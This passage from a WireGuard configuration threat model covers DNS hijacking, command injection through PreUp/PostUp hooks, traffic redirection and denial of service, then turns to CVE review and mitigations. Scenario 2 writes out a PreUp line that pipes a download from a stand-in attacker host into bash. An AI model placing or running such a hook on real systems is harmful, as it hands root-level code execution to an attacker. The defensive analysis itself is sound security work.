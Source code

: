 #### 2.2 Threat Modeling

Let's consider some specific attack scenarios:

*   **Scenario 1: DNS Hijacking and Phishing:**
    *   **Attacker Action:** Modify the `DNS` parameter in the `[Interface]` section to point to a malicious DNS server.
    *   **Impact:**  Users' DNS queries are resolved by the attacker's server.  The attacker can return incorrect IP addresses for legitimate websites, directing users to phishing sites that mimic the real ones.  This allows the attacker to steal credentials, financial information, or other sensitive data.

*   **Scenario 2: Remote Code Execution (RCE):**
    *   **Attacker Action:**  Insert a malicious command into one of the `PreUp`, `PostUp`, `PreDown`, or `PostDown` parameters.  For example: `PreUp = /bin/bash -c 'curl http://attacker.com/malware | bash'`
    *   **Impact:**  When the WireGuard interface is brought up or down (using `wg-quick`), the injected command is executed with the privileges of the user running `wg-quick` (usually root).  This gives the attacker complete control over the system.

*   **Scenario 3: Traffic Redirection and MITM:**
    *   **Attacker Action:**  Modify the `Endpoint` parameter in the `[Peer]` section to point to an attacker-controlled server.  Also, modify `AllowedIPs` to include the attacker's network.
    *   **Impact:**  All traffic intended for the legitimate peer is routed through the attacker's server.  The attacker can eavesdrop on the communication, modify data in transit, or inject malicious content.

*   **Scenario 4: Denial of Service (DoS):**
    *   **Attacker Action:** Set `AllowedIPs` to `0.0.0.0/0`, effectively disabling filtering.  Or, set a very low `MTU`.
    *   **Impact:**  The VPN connection becomes unusable, either due to excessive traffic or fragmentation issues.

#### 2.3 Vulnerability Research

*   **CVE Search:** A search of CVE databases (e.g., NIST NVD, MITRE CVE) for "WireGuard" and "configuration" reveals no *directly* exploitable vulnerabilities related to configuration file parsing itself.  This is a testament to WireGuard's design, which prioritizes simplicity and security.  However, vulnerabilities in *related* components (e.g., the `wg-quick` script, underlying system libraries) could potentially be leveraged to gain write access to the configuration file.
*   **Security Advisories:** Reviewing WireGuard's official security advisories (if any) is crucial.  While no specific advisories related to configuration injection were found during this initial analysis, ongoing monitoring is essential.
*   **`wg-quick` Script Analysis:** The `wg-quick` script (often used to manage WireGuard interfaces) is a potential point of concern.  It's a shell script, and any vulnerabilities in its handling of the configuration file (e.g., insufficient input sanitization) could be exploited.  A thorough code review of `wg-quick` is recommended.

#### 2.4 Mitigation Strategies

**Preventative Controls:**

1.  **File System Permissions:**
    *   **Recommendation:**  Restrict write access to the WireGuard configuration file to the absolute minimum necessary users (ideally, only root).  Use the principle of least privilege.  Ensure the file is owned by root and has permissions set to `600` (read/write only by owner).
    *   **Rationale:**  This is the most fundamental and crucial preventative measure.  It directly addresses the prerequisite of the attack (write access).
    *   **Implementation:**  Use standard Linux file permission commands (`chown`, `chmod`).
